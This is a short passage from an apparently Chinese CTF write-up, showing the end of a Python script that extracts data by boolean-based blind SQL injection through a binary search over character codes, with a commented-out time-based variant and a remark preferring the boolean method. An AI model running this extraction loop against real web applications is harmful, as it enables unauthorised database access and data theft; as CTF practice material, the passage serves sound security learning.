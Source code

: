 ```python

        # try:
        #     r = requests.post(url,params=params,timeout=1)
        #     tail = mid
        # except Exception as e:
        #     head = mid + 1

        r = requests.get(url, params=params)
        if "userAUTO" in r.text:
            head = mid + 1
        else:
            tail = mid

    if head != 32:
        # 如果找到有效的字符，将其添加到结果字符串中
        result += chr(head)
    else:
        # 如果没有找到有效字符，退出循环
        break

    print(result)



```

布尔盲注这么快，我为什么要想不开尝试时间盲注呢



#### web224

![image-20250216153130500](../assets/image-20250216153130500.png)
